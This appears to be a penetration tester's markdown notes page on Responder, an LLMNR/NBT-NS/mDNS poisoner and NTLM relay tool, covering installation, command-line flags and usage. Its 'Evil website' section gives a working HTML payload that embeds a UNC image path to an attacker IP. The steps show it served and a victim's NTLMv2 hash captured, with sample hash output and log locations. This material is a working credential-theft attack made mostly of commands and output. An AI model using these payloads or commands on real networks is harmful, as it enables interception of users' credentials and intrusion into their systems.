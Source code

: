 ```yaml
---
title : "Responder"
# pre : ' '
description : "LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay."
date : 2020-03-11T15:08:07+01:00
# hidden : true
# draft : true
weight : 0
# tags : [""]
---
```


## Responder

LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

### Installation

```plain
git clone https://github.com/lgandx/Responder.git
```

### Usage

Disable UFW before using.

```plain
python3 Responder.py -I eth0 -w -r -f
```

### Flags

```plain
Usage: python ./Responder.py -I eth0 -w -r -f
or:
python ./Responder.py -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```

### Examples

{{%attachments title="Related files" fa_icon_class="far fa-file-video" pattern="responder.mp4"/%}}

#### Analyse mode

```plain
sudo ./Responder.py -I <interface> -A -v
```

#### Full mode

```plain
sudo ./Responder.py -I <interface> -w -F --lm -v
```

### Evil website

Works on:

* Internet Explorer 8 (8.0.7600.16385, Windows 7)
* Internet Explorer 8 (8.0.7601.17514, Windows Server 2008R2)
* Internet Explorer 11 (11.719.18362.0, Windows 10)
* Internet Explorer 11 (11.2273.14393.0, Windows Server 2016)
* Internet Explorer 11 (11.1098.17763.0, Windows Server 2019)

Does not work on:

* Microsoft Edge (44.18362.449.0 Windows 10)
* Google Chrome (80.0.3987.149, Windows 10)
* Brave (1.5.115, Windows 10)
* Opera (67.0.3575.115, Windows 10)

#### Index.html content

```plain
cat index.html

<html>
<head></head>
<body>
<img src="\\10.10.10.37\picture.jpg" alt=""></img>
</body>
</html>
```

#### Host the site

```plain
python3 -m http.server 80
```

#### Start responder to catch hashes

```plain
responder -I eth0 -A -f -v
[...SNIP...]
[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.10.10.37]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[!] Error starting TCP server on port 80, check permissions or other servers running.
[+] Listening for events...
```

#### Client browsed to site

![Example](images/example.png)

#### Hashes aquired

```plain
[SMB] NTLMv2-SSP Client   : 10.10.10.15
[SMB] NTLMv2-SSP Username : WS7-2\User
[SMB] NTLMv2-SSP Hash     : User::WS7-2:2f5d1007fc42a38e:74DF5D8A06BF0059BCCA1AB300782DED:0101000000000000C0653150DE09D2012E16D14827C3AF5500[...SNIP...]
```

#### Find captured hashes

Folder /logs in the responder folder

```plain
 ~/tools/responder/logs
$ ll
total 22M
-rw-r--r-- 1 root root    0 Jun 19 09:09 Analyzer-Session.log
-rw-r--r-- 1 root root 226K Nov 25 08:55 Config-Responder.log
-rw-r--r-- 1 root root 2.3K Jul  7 10:23 HTTP-NTLMv2-10.0.0.30.txt
-rw-r--r-- 1 root root 1.2K Jul  7 09:06 HTTP-NTLMv2-10.0.0.35.txt
-rw-r--r-- 1 root root 1.2K Oct 26 11:17 HTTP-NTLMv2-10.1.25.122.txt

```

### URL list

* [GitHub.com - Responder](https://github.com/lgandx/Responder)
* [Original DEPRECATED GitHub](https://github.com/SpiderLabs/Responder)
